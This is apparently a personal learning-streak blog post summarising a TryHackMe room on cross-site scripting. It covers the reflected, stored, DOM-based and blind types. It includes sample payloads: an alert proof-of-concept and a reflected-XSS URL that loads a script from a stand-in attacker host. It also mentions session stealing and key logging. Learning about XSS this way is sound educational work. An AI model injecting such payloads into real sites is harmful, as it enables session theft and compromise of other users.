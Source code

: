 ```yaml
---
layout: post
title: "30 Days of THM Day 23"
date: 2024-07-04 10:00:00 +0000
categories: [post, hacking]
tags: [post, hacking, medium]
---
```


Welcome back to 30 Days of TryHackMe, where I try to build a learning streak using the cybersecurity learning platform, TryHackMe. Today, I am tackling the next room on the Web Fundamentals path, Intro to Cross-site Scripting.


Cross-site Scripting (XSS) is an injection where malicious JavaScript is injected into a web application. XSS is based on JavaScript, and they are extremely common and reporting those vulnerabilities can pay very well.

The payload is the malicious JavaScript code. The simplest of the payloads would be something like ‘<script>alert(‘XSS’);</script>’. This is often used as a proof of concept. XSS can also be used for session stealing and key logging.

Reflected XSS is when user-supplied data in an HTTP request is included in the webpage source without any validation. For example, let’s say a user enters incorrect input on a website,

http://webapp.com, and an error message pops up, and the content of the error message gets taken from the error parameter and is built into the page source. The url would look something like http://webapp.com/?error=invalid input detected. Malicious code can be inserted like http://webapp.com/?error=<script src=”http://evilwebsite.com/evil.js"></script>. When testing for Reflected XSS, you will want to look for parameters in the URL query string, the URL file path, and sometimes the HTTP Headers.

In a stored XSS attack, the payload is stored on the web application, in a database, and then gets run when other users visit the web page. For example, in a website that allows comments, malicious code can potentially be implemented into one of those comments. Any user visiting the article will have the JavaScript run in their browser. When looking for Stored XSS, you’ll want to test every possible point of entry. Common places to look are comments on a blog, user profile information, and website listings.

DOM Based XSS is another type of XSS. The DOM is the Document Object Model, and it is a programming interface that represents the web page. DOM Based XSS is when the JavaScript execution happens without any new web pages being loaded or acting on user interaction.

Blind XSS is like a stored XSS in that the payload is stored on the web application, but you won’t be able to see the payload working or test it.

